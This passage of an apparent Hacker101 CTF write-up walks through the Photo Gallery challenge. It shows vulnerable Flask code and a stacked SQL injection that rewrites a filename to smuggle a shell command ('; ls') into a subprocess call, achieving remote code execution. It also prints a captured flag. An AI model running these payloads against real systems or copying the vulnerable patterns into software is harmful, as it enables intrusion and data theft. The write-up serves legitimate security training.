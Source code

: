 ```
			rep += '<div><img src="fetch?id=%i" width="266" height="150"><br>%s</div>' % (pid, sanitize(ptitle))
			fns.append(pfn)
		rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
		rep += '</div>\n'

	return home.replace('$ALBUMS$', rep)

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)
	# It's dangerous to go alone, take this:
	# ^FLAG^55b0d0b55a99c5537ce92b24246ccf2fecf5d253e252447ee7b135414a6dd64d$FLAG$

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)

```

#### Finding futher attack vectors from main.py file

After looking at the main.py file in depth, the line in the @app.route('/') method that calculates the "Space used:" calls a subprocess that has the potential for RCE:

```
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

This line checks the file name and gets the size for the file, but if the filename is modified to something like "files/adorable.jpg; <MALICIOUS COMMAND>" our command should be run.

Making use of the SQLi, I test to see if I can update the existing entries in the photos table:

```
2; UPDATE photos SET filename="files/adorable.jpg; ls" WHERE id=1; COMMIT;
```

If this injection works, the title for the first photo should be changed to "ttt" and the "space used" portion of the page will hopefully display the output of the ls command:

![update](https://github.com/user-attachments/assets/c31d0c86-c39d-4217-9cb1-196d858d2a4a)



Perfect, we have RCE!

After hours of searching the system for the flags, I have no luck. With the clue "Be aware of your environment" from hacker101, I check the environment variables with the following command:

```
printenv | grep -i flag
```
